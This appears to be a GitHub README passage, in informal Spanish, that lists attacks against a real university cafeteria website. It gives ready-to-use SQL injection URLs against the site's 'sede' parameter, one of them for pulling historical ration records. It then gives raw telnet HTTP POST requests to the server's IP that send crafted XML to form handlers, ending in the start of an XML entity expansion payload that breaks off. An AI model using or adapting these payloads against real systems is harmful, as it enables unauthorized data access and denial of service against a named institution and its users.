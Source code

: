 Medidor: http://comedor.unc.edu.ar/gv-ds_test.php?json=true&accion=1&sede=0475


## Start the cool things

Bueno basta de boludeces, que empiece lo divertido:

### SQL injection

1. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475' or '1' = '1`
2. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0' or sede = '0475`
3. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475' and cast(fecha as date) = date '2017-5-9' group by 1 order by 1 -- hola`

> Nota: Usar (3) para obtener el historico de raciones de cualquier fecha.

> Otra nota: Por alguna razón dejé esta vulnerabilidad en `gv-ds_test.php`, 
supongo que fué porque es útil para obtener datos viejos en JSON cuando 
el medidor está en cero.


### XML Entity Expansion

A esto no lo he vuelto a revisar xD, **necesita una mejor explicación**.

```sh
$ telnet 200.16.16.36 80
POST /formulario/php/saveForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Connection: keep-alive

xml=<root><row id_elems="nombre">yolo</row><row>"Hola y saludos a todos"</row></root>


$ telnet 200.16.16.36 80
POST /formulario/php/saveForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Connection: keep-alive

xml=<root><row>"Hola y saludos a todos"


$ telnet 200.16.16.36 80
POST /formulario/php/checkForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 9
Connection: keep-alive

cuip=yolo


$ telnet 200.16.16.36 80
POST /formulario/php/checkForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded

xml=<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY lol "LOL ">
```